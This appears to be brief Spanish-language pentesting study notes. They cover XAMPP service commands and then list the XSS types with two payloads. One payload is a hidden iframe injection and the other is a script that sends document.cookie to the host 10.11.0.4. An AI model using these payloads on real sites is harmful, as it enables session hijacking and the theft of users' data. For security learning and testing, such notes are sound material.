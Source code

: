#### Iniciar y detener servicio mysql
```
c:\xampp\mysql_start.bat &
c:\xampp\mysql_stop.bat
```

#### Iniciar sesion en mysql
```
c:\xampp\mysql\bin\mysql.exe -u noroot -p
```

#### Iniciar y detener apache
```
c:\xampp\apache_start.bat
C:\xampp\apache_stop.bat
```

#### Iniciar y detener ambos servicios
```
C:\xampp\xampp_start.exe
C:\xampp\xampp_stop.exe
```

-----

### XSS
- XSS reflejado
- XSS persistente
- XSS basado en DOM

#### Content Injection
```
<iframe src=http://10.11.0.4/report height=”0” width=”0”></iframe> 
```

#### Robo de cookies e información de sesión
```
<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script> 
```
